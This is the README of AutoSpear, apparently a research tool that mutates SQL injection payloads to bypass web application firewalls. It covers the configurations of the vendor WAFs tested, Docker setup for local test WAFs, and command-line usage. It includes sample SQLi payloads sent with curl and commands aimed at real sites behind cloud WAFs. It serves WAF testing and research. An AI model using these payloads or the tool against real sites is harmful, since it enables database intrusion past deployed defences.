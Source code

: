 # AutoSpear
We will release the source code of AutoSpear after all vendors complete the fix process.

# Statement
I have noted in the presentation slides that the four WAFs (AWS, Fortinet, F5, and CSC) are deployed based on AWS ACLs and the managed rulesets (https://aws.amazon.com/marketplace/solutions/security/waf-managed-rules) provided by these vendors. 
Here I may restress that the three WAFs (Fortinet, F5, and CSC) under test in this configuration are not precisely the same as the independent WAFs provided by the vendors on their official websites.

Specifically:
(1) Amazon Web Services (AWS). We create a load balancer on AWS and add an Access Control List (ACL) to it. On this ACL, we select two AWS-managed rule groups related to SQLi, e.g., `Core ruleset` and `SQL database`.<br>
(2) F5. AWS allows users to add third-party vendors provided rule sets in the marketplace to the ACL. We replace the AWS rules in (1) with `F5 Web Exploits OWASP Rules`.<br>
(3) Cyber Security Cloud (CSC). Similar to (2), we subscribe to the `Cyber Security Cloud Managed Rules for AWS WAF - HighSecurity OWASP Set` and add it to ACL.<br>
(4) Fortinet. Fortinet also provides their ruleset `Fortinet OWASP Top 10 - The Complete Ruleset` in the AWS marketplace, which is a comprehensive package to help address threats as described in OWASP Top 10.<br>
(5) Cloudflare. Cloudflare's free version does not allow users to use managed rules. Therefore, we subscribe to Cloudflare's pro plan to enable the full-blown WAF. We turn on the three rule sets: `Cloudflare Specials`, `OWASP Common Exceptions` and `OWASP Generic Attack` to defend against SQLi attacks.<br>
(6) Wallarm. Wallarm applies machine learning to adaptively generate security rules and verifies the impact of malicious payloads in real-time. We deploy a Wallarm Node (for trial) based on Google Cloud Platform to enable its WAF function.<br>
(7) ModSecurity. We build and deploy ModSecurity based on Nginx and embed the latest version of the OWASP Core Rule Set (CRS) in it. Besides, we set the Paranoia Level of CRS as the default, i.e., PL1.<br>

Besides, I must reiterate that our provided results and rankings of vendors are obtained with our limited settings and dataset samples, which cannot fully represent the actual defense effects against all samples in the wild.

# Update
# Issues are welcome

# AutoSpear - Towards Automatically Bypassing and Inspecting Web Application Firewalls
A tool aiming to bypass and inspect WAFs (for SQLi payloads for now). You only need to input a interface of WAF and some SQLi payloads blocked by WAF. For simplicity, we provide some payloads and 4 WAFs ([ModSecurity](https://github.com/SpiderLabs/ModSecurity), [WAF-Brain](https://github.com/BBVA/waf-brain), CNN-based and LSTM-based WAF).
## Features
- Hierarchical Tree Representation (Semantic-based analysis)
- Mutation with Context-free Grammar (Vast search space of mutations)
- Monte-Carlo Tree Search Guided Searching (Efficient for black-box attack)
## Deployment
### Deploy WAFs with Docker 
- [ModSecurity](https://github.com/SpiderLabs/ModSecurity)
```
docker build -t waf/modsecurity:v1 classifiers/repos/modsecurity/
docker run -d -p 9000:80 --name=modsecurity  waf/modsecurity:v1 /usr/local/openresty/nginx/sbin/nginx -g "daemon off;"
```
- [WAF-Brain](https://github.com/BBVA/waf-brain)
```
docker build -t waf/wafbrain:v1 classifiers/repos/wafbrain/
docker run -p 9001:80 -d --name=wafbrain  waf/wafbrain:v1
```
- CNN-based SQLi detector
```
docker build -t waf/cnn:v1 classifiers/repos/cnn/
docker run -p 9002:80 -d --name=cnn  waf/cnn:v1
```
- LSTM-based SQLi detector
```
docker build -t waf/lstm:v1 classifiers/repos/lstm/
docker run -p 9003:80 -d --name=lstm  waf/lstm:v1
```
### Test the connectivity of the WAFs
```
# ModSecurity
curl http://0.0.0.0:9000/
curl -X POST -d "payload=benign" http://0.0.0.0:9000/waf
curl -X POST -d "payload=1' or 1 = 1" http://0.0.0.0:9000/waf
curl -X POST -d "payload=1) where (select 0) or 5232=5232 union all select null,null,null" http://0.0.0.0:9000/waf
curl -X POST -d "payload=1) where (select 0) or 5232=5232 union all /*foo*/ select null,null,null" http://0.0.0.0:9000/waf

# WAF-Brain
curl http://0.0.0.0:9001/
curl -X POST -d "payload=benign" http://0.0.0.0:9001/waf
curl -X POST -d "payload=1' or 1 = 1" http://0.0.0.0:9001/waf

# CNN-based 
curl http://0.0.0.0:9002/
curl -X POST -d "payload=benign" http://0.0.0.0:9002/waf
curl -X POST -d "payload=1' or 1 = 1" http://0.0.0.0:9002/waf

# LSTM-based
curl http://0.0.0.0:9003/
curl -X POST -d "payload=benign" http://0.0.0.0:9003/waf
curl -X POST -d "payload=1' or 1 = 1" http://0.0.0.0:9003/waf
```
### Install requirements with Virtualenv
```
pip3 install virtualenv
virtualenv spearenv
source spearenv/bin/activate
pip install -r requirements.txt
```
## ✨Usage
- Overview
> By default, AutoSpear modifies all parts of the payload (i.e. the boundaries and the query) and utilizes a random-search policy (which you can specify as MCTS with ``-g mcts``). The default request method for attacks against WAF-as-a-service is GET(JSON), and the default threshold for attacks on ML-based WAFs is 0.5. You can add your custom cookies via``--cookie``.
- Demos
    - Bypass ModSecurity for multi payloads (in payload_multiple.txt)
    ```
    python main.py -p WAFaas -WAFu http://0.0.0.0:9000/waf -pn multiple
    ```
    - Bypass ModSecurity for single payload (in payload_single_single.txt) with Monte-Carlo Tree Search
    ```
    python main.py -p WAFaas -WAFu http://0.0.0.0:9000/waf -g mcts
    ```
    - Bypass some kind of WAF-as-a-service (i.e., cloud WAF) of other request methods
    ```
    python main.py -p WAFaas -WAFu http://your.website.with.waf/login -r GET
    python main.py -p WAFaas -WAFu http://your.website.with.waf/login -r GET(JSON)
    python main.py -p WAFaas -WAFu http://your.website.with.waf/login -r POST
    python main.py -p WAFaas -WAFu http://your.website.with.waf/login -r POST(JSON)
    ```
    - Bypass WAF-Brain with threshold 0.1 under strict black-box situation (no score) with random search
    ```
    python main.py -p ML -MLu http://0.0.0.0:9001/waf -MLt 0.1 -MLb blackbox_without_score -pn multiple
    ```
    - Bypass WAF-Brain with threshold 0.1 under black-box situation (with score) with MCTS guided search
    ```
    python main.py -p ML -MLu http://0.0.0.0:9001/waf -MLt 0.1 -MLb blackbox_with_score -pn multiple -g mcts
    ```
- Demo of logs
    - Script output
    ![image](./resources/output.png)
    - Mutation process
    ![image](./resources/mutation.png)
    - Success payloads
    ![image](./resources/success.png)
- All arguments
```
python main.py -h
usage: main.py [-h] --pattern {ML,WAFaas} [--guide {random,mcts}] [--request_method {GET,GETJSON),POST,POST(JSON}] [--max_attempts MAX_ATTEMPTS]
               [--max_steps MAX_STEPS] [--tree_mutate_pattern {all,query}] [--payload_number {single,multiple}] [--ML_url ML_URL] [--ML_thresh ML_THRESH]
               [--ML_box {blackbox_with_score,blackbox_without_score}] [--WAFaas_url WAFAAS_URL] [--cookie COOKIE]

optional arguments:
  -h, --help            show this help message and exit
  --pattern {ML,WAFaas}, -p {ML,WAFaas}
                        attack pattern: ML or WAFaas; ML means local ML SQLi detector and WAFaas means real-world WAF-as-a-service; you need to specify
                        request method when WAFaas
  --guide {random,mcts}, -g {random,mcts}
                        guide mothod: mcts or random (default); mcts means Monte-Carlo Tree Search
  --request_method {GET,GET(JSON),POST,POST(JSON)}, -r {GET,GET(JSON),POST,POST(JSON)}
                        request method: GET / GET(JSON) / POST / POST(JSON)
  --max_attempts MAX_ATTEMPTS, -mat MAX_ATTEMPTS
                        maximum number of attempts, default is 10; This parameter is for the entire attack process, no matter what attack method is used,
                        the attack process is repeated *mat* times
  --max_steps MAX_STEPS, -mst MAX_STEPS
                        this parameter plays a role in the attack process, a payload can be mutated at most *mst* times.
  --tree_mutate_pattern {all,query}, -tp {all,query}
                        tree muatte pattern: only modify query_tree or modify both boundary and query trees
  --payload_number {single,multiple}, -pn {single,multiple}
                        payload pattern: single payloads or multi paylaods, you need to write your payload(s) to the corresponding files (payload_xxx.txt)
  --ML_url ML_URL, -MLu ML_URL
                        the local ML SQLi detector url (the ML model needs to be deployed as a *service* in advance)
  --ML_thresh ML_THRESH, -MLt ML_THRESH
                        threshold of the local ML SQLi detector
  --ML_box {blackbox_with_score,blackbox_without_score}, -MLb {blackbox_with_score,blackbox_without_score}
                        blackbox with score?
  --WAFaas_url WAFAAS_URL, -WAFu WAFAAS_URL
                        the url of your target WAFaas
  --cookie COOKIE, -c COOKIE
                        cookie
```